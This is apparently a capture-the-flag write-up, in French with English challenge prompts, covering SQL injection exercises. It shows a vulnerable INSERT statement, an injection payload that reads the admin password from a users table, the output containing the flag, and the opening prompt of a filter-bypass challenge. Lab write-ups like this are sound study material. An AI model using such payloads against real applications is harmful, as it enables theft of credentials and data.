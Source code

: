 
### `Injection in INSERT`

**Consigne :**\
Sometimes the injection can occur in an INSERT statement.

> **Goal : recover the admin password.**

**Code présent sur la page :**

```sql
INSERT INTO maillinglist(email, enabled) VALUES ('$mail', TRUE);

-- return
SELECT 
  email, enabled
FROM maillinglist 
ORDER BY `id` DESC 
LIMIT 5;
```

**Injection :**

```sql
', (SELECT password FROM users WHERE username LIKE '%admin%'))--
```

**Résultat :**

```json
[
  {
    "email": "",
    "enabled": "FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}"
  },
  {
    "email": "brenda57@hotmail.com",
    "enabled": 1
  },
  [...]
]
```

> FLAG{Th1s_is_th3_4dm1n_p4ssw0rd}

**Explication de l'injection :**\
Ici nous réalisons un requête imbriqué dans une commande `INSERT`, afin de récupèrer le mot de passe admin.

---

### `Filter bypass`

**Consigne :**\
Here your input is heavily transformed before being injected into the query.
While this make the exploitation more difficult, this shouldn’t stop you.
